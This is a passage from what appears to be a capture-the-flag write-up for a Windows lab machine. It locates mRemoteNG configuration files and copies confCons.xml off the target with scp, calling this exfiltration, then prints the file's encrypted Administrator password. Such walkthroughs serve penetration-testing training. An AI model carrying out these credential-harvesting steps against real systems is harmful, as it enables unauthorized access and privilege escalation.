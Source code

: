 ```
16-07-2016  15:23    <DIR>          Windows NT                       
23-02-2019  11:22    <DIR>          Windows Photo Viewer                       
16-07-2016  15:23    <DIR>          Windows Portable Devices                       
16-07-2016  15:23    <DIR>          WindowsPowerShell                       
               0 File(s)              0 bytes                       
              14 Dir(s)  11.418.263.552 bytes free
```

[mRemoteNG](https://github.com/mRemoteNG/mRemoteNG) is an open source remote connections manager,
similar to RoyalTS or RDCMan. You configure connections with credentials in mRemoteNG, and simplify
connections to remote hosts. We can find the configuration data for mRemoteNG under the AppData folder
in L4mpje's user directory.

```
l4mpje@BASTION C:\Program Files (x86)> cd ..\Users\L4mpje\AppData\Roaming\mRemoteNG
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

22-02-2019  15:03    <DIR>          .
22-02-2019  15:03    <DIR>          ..
22-02-2019  15:03             6.316 confCons.xml
22-02-2019  15:02             6.194 confCons.xml.20190222-1402277353.backup
22-02-2019  15:02             6.206 confCons.xml.20190222-1402339071.backup
22-02-2019  15:02             6.218 confCons.xml.20190222-1402379227.backup
22-02-2019  15:02             6.231 confCons.xml.20190222-1403070644.backup
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup
22-02-2019  15:03                51 extApps.xml
22-02-2019  15:03             5.217 mRemoteNG.log
22-02-2019  15:03             2.245 pnlLayout.xml
22-02-2019  15:01    <DIR>          Themes
              14 File(s)         76.577 bytes
               3 Dir(s)  11.417.452.544 bytes free
```

# Administrator own
Because this is a functional openSSH server, we can exfiltrate files using SCP just like on a Linux host.
```
root@kali:bastion# scp L4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml ./
L4mpje@10.10.10.134's password: 
confCons.xml                               100% 6316   110.0KB/s   00:00
root@kali:bastion# cat confCons.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" 
EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" 
Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" 
ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" 
	Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" 
	Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
	Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" 
```